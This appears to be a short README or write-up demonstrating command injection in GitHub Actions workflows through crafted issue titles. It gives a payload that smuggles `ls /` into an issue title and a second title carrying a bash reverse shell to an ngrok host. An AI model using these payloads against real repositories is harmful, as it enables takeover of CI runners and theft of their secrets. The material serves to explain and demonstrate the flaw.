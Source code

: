 # Issue Injection
Try creating a new issue with the title:
`new issue title" && ls / && echo "`

## Why?
The GitHub service which dispatches these workflows to the hosted runners replaces 
the macros `${{ ... }}` blindly, so `echo "${{github.event.issue.title}}"` becomes 
`echo "new issue title" && ls / && echo ""`, thus, giving us arbitrary code execution 
capabilities.

![Alt text](./assets/issue_injection_output.jpg "Issue Injection Output")


# Code execution
We continue the exploit concept from `Issue Injection`, but take it a step further.

Setup: create a [reverse shell](https://ngrok.com/download) listening on port 10000 
Lets create an issue with the title: 
```New malicious issue title" && bash -i >& /dev/tcp/8.tcp.ngrok.io/15063 0>&1 && echo "```

